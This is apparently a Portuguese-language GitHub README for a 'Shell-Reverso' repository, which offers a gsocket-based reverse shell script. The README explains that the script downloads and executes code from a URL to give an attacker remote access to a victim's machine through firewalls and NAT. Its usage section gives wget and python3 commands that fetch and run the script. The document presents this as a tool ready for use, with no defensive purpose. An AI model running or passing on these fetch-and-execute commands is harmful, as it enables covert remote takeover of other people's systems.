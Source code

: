 # Shell Reverso
![reverse-shell-1024x333](https://github.com/user-attachments/assets/7e5f5e5e-c7c3-4545-a0e9-ea1cfa534438)
Uma shell reversa é uma técnica de ataque onde a máquina vítima se conecta de volta à máquina do atacante, permitindo que o atacante execute comandos remotamente. A vítima geralmente inicia a conexão de saída, que pode passar despercebida por firewalls ou sistemas de segurança, pois é a máquina alvo quem "chama" o atacante. Esse tipo de ataque é utilizado para obter controle total sobre a máquina comprometida.
Este repositório contém um script que estabelece uma shell reversa com gsocket. Quando executado, o script baixa um arquivo de uma URL específica e executa o código, permitindo ao atacante acessar remotamente o sistema da vítima. A saída do script é redirecionada para output.txt,
O Gsocket permite que duas estações de trabalho em diferentes redes privadas se comuniquem entre si. Por meio de firewalls e por meio de NAT - como se não houvesse firewall
## Uso e Instalação
```bash
wget https://raw.githubusercontent.com/Freitaszkx/Shell-Reverso/refs/heads/main/gsocket.py
python3 gsocket.py
cat output.txt
```

![bandicam 2025-01-09 02-41-57-136](https://github.com/user-attachments/assets/303d977b-71e1-4974-a3ac-7ff91f49096f)
